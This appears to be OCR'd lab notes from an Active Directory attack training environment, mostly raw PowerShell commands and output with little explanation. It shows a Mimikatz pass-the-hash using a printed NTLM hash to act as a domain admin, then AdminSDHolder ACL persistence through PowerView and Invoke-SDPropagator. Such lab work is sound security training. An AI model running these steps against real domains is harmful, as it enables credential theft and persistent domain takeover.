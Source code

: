 ```
Windows PowerShell
Copyright (C) 2016 Microsoft Corporation. All rights reserved.

PS C:\Windows\system32> cd C:\ad\Tools\
PS C:\ad\Tools> . .\PowerView.ps1
PS C:\ad\Tools> whoami
dcorp\student503
PS C:\ad\Tools> klist

Current LogonId is 0:0x13e49c3

Cached Tickets: (0)
PS C:\ad\Tools> ls \\dcorp-dc\c$
ls : Cannot find path '\\dcorp-dc\c$' because it does not exist.
At line:1 char:1
+ ls \\dcorp-dc\c$
+ ~~~~~~~~~~~~~~~~
    + CategoryInfo          : ObjectNotFound: (\\dcorp-dc\c$:String) [Get-ChildItem], ItemNotFoun
    + FullyQualifiedErrorId : PathNotFound,Microsoft.PowerShell.Commands.GetChildItemCommand
```

* PowerShell as DA account:

```
PS C:\ad\tools> . .\Invoke-Mimikatz.ps1
PS C:\ad\tools> Invoke-Mimikatz -Command '"sekurlsa::pth /domain:dollarcorp.moneycorp.local /user:svcadmin /ntlm:b38ff50
264b74508085d82c69794a4d8 /run:powershell.exe"'

  .#####.   mimikatz 2.1.1 (x64) built on Nov 29 2018 12:37:56
 .## ^ ##.  "A La Vie, A L'Amour" - (oe.eo) ** Kitten Edition **
 ## / \ ##  /*** Benjamin DELPY `gentilkiwi` ( benjamin@gentilkiwi.com )
 ## \ / ##       > http://blog.gentilkiwi.com/mimikatz
 '## v ##'       Vincent LE TOUX             ( vincent.letoux@gmail.com )
  '#####'        > http://pingcastle.com / http://mysmartlogon.com   ***/

mimikatz(powershell) # sekurlsa::pth /domain:dollarcorp.moneycorp.local /user:svcadmin /ntlm:b38ff50264b74508085d82c6979
4a4d8 /run:powershell.exe
user    : svcadmin
domain  : dollarcorp.moneycorp.local
program : powershell.exe
impers. : no
NTLM    : b38ff50264b74508085d82c69794a4d8
  |  PID  2936
  |  TID  2656
  |  LSA Process is now R/W
  |  LUID 0 ; 25351640 (00000000:0182d5d8)
  \_ msv1_0   - data copy @ 0000024868AAB6B0 : OK !
  \_ kerberos - data copy @ 000002486869BC28
   \_ aes256_hmac       -> null
   \_ aes128_hmac       -> null
   \_ rc4_hmac_nt       OK
   \_ rc4_hmac_old      OK
   \_ rc4_md4           OK
   \_ rc4_hmac_nt_exp   OK
   \_ rc4_hmac_old_exp  OK

Windows PowerShell
Copyright (C) 2016 Microsoft Corporation. All rights reserved.

PS C:\Windows\system32> . C:\AD\Tools\PowerView.ps1
PS C:\Windows\system32> Add-ObjectAcl -TargetADSprefix 'CN=AdminSDHolder,CN=System' -PrincipalSamAccountName student503 -Rights All -Verbose
```

[dcorp-dc.dollarcorp.moneycorp.local]: PS C:\Users\svcadmin\Documents> Invoke-SDPropagator -showProgress -timeoutMinutes 1
[dcorp-dc.dollarcorp.moneycorp.local]: PS C:\Users\svcadmin\Documents> exit